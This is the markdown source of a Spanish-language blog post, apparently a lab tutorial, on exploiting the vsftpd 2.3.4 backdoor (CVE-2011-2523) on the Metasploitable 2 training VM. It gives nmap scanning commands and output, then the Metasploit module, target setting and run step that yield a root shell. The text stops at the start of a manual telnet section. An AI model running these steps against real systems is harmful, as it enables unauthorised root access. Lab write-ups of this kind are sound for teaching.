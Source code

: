 ```yaml
---
layout: post
title: Metasploitable 2, Atacando el puerto 21 VSFTPD 2.3.4
category: Hacking
comments: true
description: Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP, que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 
tags:       
    - hacker
    - metasploitable2
    - metasploit
---
```


Metasploitable 2, es una maquina virtual vulnerable creada por la empresa Rapid7 (la de Metasploit), para que la gente que esta empezando con el hacking pueda aprender tranquilamente.  En este articulo explotaremos con Metasploit una vulnerabilidad que habia en un servidor de FTP, el VSFTP,que durante un corto periodo de tiempo tuvo una puerta trasera o backdoor. 

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Fase reconocimiento

Lo primero que necesitamos hacer es saber que puertos estan abiertos en la maquina de Metasploitable, esto lo podemos saber usando NMAP

{% highlight sql linenos %}

 nmap -sS -p- -T5 192.168.1.41

{% endhighlight %}

En los parametros de NMAP le he dicho que me diga todos puertos que tiene abiertos la maquina 192.168.1.41 y a maxima velocidad, si necesitas ayuda con NMAP puedes ver los articulos de este blog [sobre NMAP](http://www.h1rd.com/tags/nmap.html)

El resultado es el siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}


Con el resultado que nos da Nmap, ya sabemos que el puerto 21 esta abierto, asi que empezaremos con el. ahora para saber que programa hay funcionando como servidor ftp tenemos tres maneras:

* Manera manual, mediante telnet vemos que programa esta detras del puerto 21.

{% highlight sql linenos %}

telnet 192.168.1.42 21

{% endhighlight %}

El resultado sera el siguiente:

{% highlight sql linenos %}

Trying 192.168.1.41...
Connected to 192.168.1.41.
Escape character is '^]'.
220 (vsFTPd 2.3.4)

{% endhighlight %}

* Manera automatica, mediante el parametro sV de Nmap

{% highlight sql linenos %}

nmap -sT -sV -p 21 -T5 192.168.1.41

{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds


{% endhighlight %}


* La ultima opcion es usar los scripts de Nmap para poder saber lo maximo sobre este puerto

{% highlight sql linenos %}

nmap -sT --script ftp* -p 21 -T5 192.168.1.41


{% endhighlight %}

NMAP nos devuelve lo siguiente:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00031s latency).

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 1093 guesses in 182 seconds, average tps: 5.8
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  OSVDB:73573  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://osvdb.org/73573
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
MAC Address: 00:0C:29:D3:5F:CD (VMware)


{% endhighlight %}

De esta manera, Nmap nos dice no solo la version vsFTPd 2.3.4 sino que es explotable, y la vulnerabilidad CVE-2011-2523.


## Fase Explotación

Ahora a empezar lo divPantalla de inicio de Metasploitertido, para la fase de explotación usare Metasploit, ya que el uso para esta vulnerabilidad en particular es muy facil.

Desde metasploit buscamos todo lo relacionado con vsFTPd, a ver que hay:

{% highlight sql linenos %}

search vsftpd

{% endhighlight %}

El resultado de la busqueda nos devuelve que tenemos un exploit para la version 2.3.4 justamente la version que esta corriendo nuestro servidor FTP, asi que vamos a usarla:

{% highlight sql linenos %}

use exploit/unix/ftp/vsftpd_234_backdoor 

{% endhighlight %}

Ahora ya solo falta poner la ip de la maquina objetivo, mediante Set RHOST 192.168.1.41 y darle al comando run, y __TACHAN!!__  ya tenemos acceso a la maquina objetivo, con privilegios de root.

<figure>
<img alt="Acceso root a la maquina objetivo después de usar el exploit" class="img img-responsive" src="/resources/images/exploit-vsftpd.png"/>
<figcaption>
Acceso root a la maquina objetivo después de usar el exploit
</figcaption>
</figure>

## Curiosidad....

Lo primero que hice al ejecutar la maquina virtual de Mestasploitable 2, fue lanzar un scan de Nessus y me salieron ciertas vulnerabilidades, lo deje apartado, y hoy mientras escribia empece a recordar que el resultado del scan en ningun momento hablo de este backdoor en vsftpd, puede que sea un error mio de configuración o uso de Nessus o que directamente Nessus lo haya pasado por alto, en cualquier caso o Nessus no es solo install y click, o Tampoco se puede dejar a Nessus el peso de toda una auditoria. Simplemente me parece curioso una vulnerabilidad del 2011 donde se puede conseguir acceso root, no aparezca en el listado de vulnerabilidades criticas, altas o medias.

<figure>
<img alt="Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd" class="img img-responsive" src="/resources/images/nessus.png"/>
<figcaption>
Los resultados que da Nessus donde no aparece la vulnerabilidad de vsftpd
</figcaption>
</figure>

Esto es debido a que hay que modificar la politica de configuración por defecto de Nessus, espero explicar esta modificación más adelante.

## Explotación manual 

Esta vulnerabilidad es un backdoor que se introdujo deliveradamente en el codigo fuente de la aplicación, por lo que lo sus creadores introdujeron una manera manual para entrar, esta funciona de la siguiente manera:

* Nos conectamos al puerto 21 con telnet

{% highlight sql linenos %}

telnet 192.168.1.41 21

{% endhighlight %}









